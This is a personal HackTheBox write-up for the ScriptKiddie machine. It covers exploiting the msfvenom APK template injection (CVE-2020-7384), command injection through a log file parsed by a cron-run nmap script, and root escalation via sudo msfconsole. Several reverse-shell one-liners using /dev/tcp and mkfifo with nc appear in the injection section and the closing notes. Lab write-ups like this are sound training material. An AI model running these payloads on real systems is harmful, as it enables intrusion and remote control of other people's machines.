


## Reconnaissance

### nmap 


### Web Service 

> Check http service on port 5000
> This site provides 3 service 


> Start to do some enumeration
> 1st feature - nmap 
> 2nd feature - not sure what kind of file I should upload, but it might have upload issue.
> 3rd feature - metasploit search 


> I also tried to do SQLi in 3rd features


> In 2nd feature, I can assume the payloads function based on msfvenom


#### Research exploit code for msfvenom

> The search result show 1 cve - CVE-2020-7384
> And I also found some exploit code in both github and exploitDB

- [(ExploitDB)Metasploit Framework 6.0.11 - msfvenom APK template command injection](https://www.exploit-db.com/exploits/49491)
- [(GITHUB)cve_2020_7384.py](https://github.com/cocomelonc/vulnexipy/blob/master/cve_2020_7384.py)
- [(GITHUB)CVE-2020-7384](https://github.com/nikhil1232/CVE-2020-7384)
> Also, there are analysis articles

- [Metasploit Framework - msfvenom APK template command injection](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md)
- [(NVD)CVE-2020-7384 Detail](https://nvd.nist.gov/vuln/detail/CVE-2020-7384)
> Description: 

```
Rapid7's Metasploit msfvenom framework handles APK files in a way that allows for a malicious user to craft and publish a file that would execute arbitrary commands on a victim's machine.
```

> So, this exploit will cause RCE by publish a malicious user craft file to target server.

## Exploit 

> With different attempt, this exploit code works well.

- [(GITHUB)CVE-2020-7384](https://github.com/nikhil1232/CVE-2020-7384)

> First, I generate the payload file by following the instruction from this exploit code.


> Move to target web service, upload the malicious apk file




> Check nc listener, the reverse shell get.


> Check current user 


> Get user flag


> Check sudo permission 
> The user - kid doesn't have permission to execute sudo

```
sudo -l
```


> Upload the linpeas and check the result 


> Potential CVE for PE


> Process 


> Crontab 


> Potential Users 


> Potential useful software


> Check current directory (/html)


> Check the web service file - app.py 


> Check other files in kid 
> There is a file named hackers in logs directory


> It's empty 



> Check home directory to fin any other user exist 
> 2nd user - pwn


> Check pwn directory


> Check scanlosers shell script
> it will define a variable log to the target file - hackers (I just checked)
> And it will view this file and filter it with cut command, sort command 
> Finally it will retrieve ip address, and execute nmap to scan the ip address


> Now I need to figure out what kind of IP address will be record in hackers
> I found the following code snippet in app.py
> So the hackers will record any ip address which try to do malicious action or the action will trigger warning message in searchsploit features.


> The malicious actions are defined in top of file (regex_alphamum)
> It will match a string that contains only alphnumeric characters plus space and period. If anything is submitted that doesn’t match that, it writes the name and source IP into a file


> Like I test SQLI previously, the hackers should record something but now it's empty.
> Then I do the same testing again, it still empty.
> So, I think the hackers file will be empty after it record.
> I also use pspy to monitor it 
> The result show the scanlosers.sh has ever triggered.


> But even I can't view the content, I still can guess the format from source code.
> It might write a line like 

```
[datetime.now] {script}\n 
```
> I'm not sure what script is. 
> but I  confirm the datetime format in python should looks like the follow


> But I think that is not what the python will contain in hackers file 
> So, I keep doing the follow:

```
import datetime
script = '10.10.17.145'
f'[{datetime.datetime.now()}] {script}\n'
```


> I think that is the result which will be recored into hackers
> Then the script - scanlosers.sh in pwn directory will read this result and extract the ip address 
> Then using nmap to scan the ip address.
> So, I think the clue for this script is own and execute by pwn, 
> Since I'm not able to do sudo or anything other file to escalate to root from kid.
> But it might is a path to get pwn permission.


> The script file - scanlosers.sh is the key to escalate to pwn.
> With reading more detail about it, it is possible to do command injection.


> the nmap command in script, it will take ip by cut the content from file  
> and the content was get from the searchsploit function in app.py.
> I am not able to decide or operate the content from searchsploit
> But I can directly write something to file hackers.
> Using the following command, I can pause the result and check my input.

```
echo "123" > /home/kid/logs/hackers; cat /home/kid/logs/hackers; echo sleep; sleep 1; cat /home/kid/logs/hackers; echo done;
```

> Then I keep testing: 
1. I tried to follow the format and set the ip as mine
```
echo "[2024-01-29 00:21:55.333754] 10.10.17.145\n" > /home/kid/logs/hackers
```


2. Then I launch tcpdump to monitor the nmap scan my host or not


> With above testing, I know the format is correct, it will take 2 space as key to cut and get the column 3 as ip to scan
> So, maybe I can terminate the nmap command by ';' then set my own command to achieve command injection.
> First, I tried ping command to check my thinking is correct or not

```
echo "X X ;ping 10.10.17.145#" >> /home/kid/logs/hackers
```


> tcpdump can get the log


> Then I tried to craft a reverse shell payload 
> but this one failed.

```
echo "X X ;'bash -i >& /dev/tcp/10.10.17.145/1339 0>&1'" >> /home/kid/logs/hackers; cat /home/kid/logs/hackers; echo sleep; sleep 10; cat /home/kid/logs/hackers; echo done;
```


> I tried to simplified it. 
> but it still failed 

```
echo "X X ;'bash -i >& /dev/tcp/10.10.17.145/1339 0>&1'" >> /home/kid/logs/hackers
```


> Then I keep trying,

```
echo "X X ;'bash -i >& /dev/tcp/10.10.17.145/1339 0>&1'" >> /home/kid/logs/hackers
```


> I checked the process, the nmap will generate a file in "recon/"
> but with my payload it will become "recon/;'bash -i >& /dev/tcp/10.10.17.145/1339 0>&1'.nmap"
> The nmap command seems incomplete


> I recraft it as follow

```
echo "1 2 3; bash -i >& /dev/tcp/10.10.17.145/1339 0>&1#" >> /home/kid/logs/hackers
```


> The process looks like
> the nmap command still incomplete  


> When I tried this, the nc get some reply 


> I'm not sure the nmap command not complete is the reason to cause error or not, but I tried to make it complete in next one

```
echo "1 2 3 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.17.145/1339 0>&1' #" >> /home/kid/logs/hackers
```


> It works ... 


> Check current user 


## Privilege Escalation 

> After getting into pwn permission, I check sudo permission first 

```
sudo -l 
```


> I can execute /opt/metasploit-framework-6.0.9/msfconsole as root without password

> Research the PE from msfconsole in GTFObins

- [(GTFObins)msfconsole](https://gtfobins.github.io/gtfobins/msfconsole/)


> Execute the following command 

```
msfconsole 
irb
system("/bin/sh")
```


> Then get root shell
> Check user 

```
id
whoami 
```


> Get root flag


## Others 

> With other writeups 
> I also found the following reverse shell payload can get pwn permission 

```
echo "1 2 ;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.145 1340 >/tmp/f #" >> /home/kid/logs/hackers
```


> So, the above failure, I think it might caused by the reverse shell payload.
## Reference 


### Writeup
- [HTB: ScriptKiddie](https://0xdf.gitlab.io/2021/06/05/htb-scriptkiddie.html)
- [HTB ScriptKiddie Walkthrough](https://www.secjuice.com/htb-scriptkiddie-walkthrough/)
### msfvenom CVE

- [(ExploitDB)Metasploit Framework 6.0.11 - msfvenom APK template command injection](https://www.exploit-db.com/exploits/49491)
- [(GITHUB)cve_2020_7384.py](https://github.com/cocomelonc/vulnexipy/blob/master/cve_2020_7384.py)
- [(GITHUB)CVE-2020-7384](https://github.com/nikhil1232/CVE-2020-7384)
- [Metasploit Framework - msfvenom APK template command injection](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md)
- [(NVD)CVE-2020-7384 Detail](https://nvd.nist.gov/vuln/detail/CVE-2020-7384)
### Reverse Shell 

- [rev generator](https://www.revshells.com/)

### Privilege Escalation 

- [(GTFObins)msfconsole](https://gtfobins.github.io/gtfobins/msfconsole/)
### Linux command 

- [Linux 的 cut 擷取部份字元、欄位指令教學與常用範例整理](https://blog.gtwang.org/linux/linux-cut-command-tutorial-and-examples/#google_vignette)
- [Sysadmin toolbox: How to use the sort command to process text in Linux](https://www.redhat.com/sysadmin/sort-command-linux)
- [簡明 Linux Shell Script 入門教學](https://blog.techbridge.cc/2019/11/15/linux-shell-script-tutorial/)

###### tags: `HackTheBox`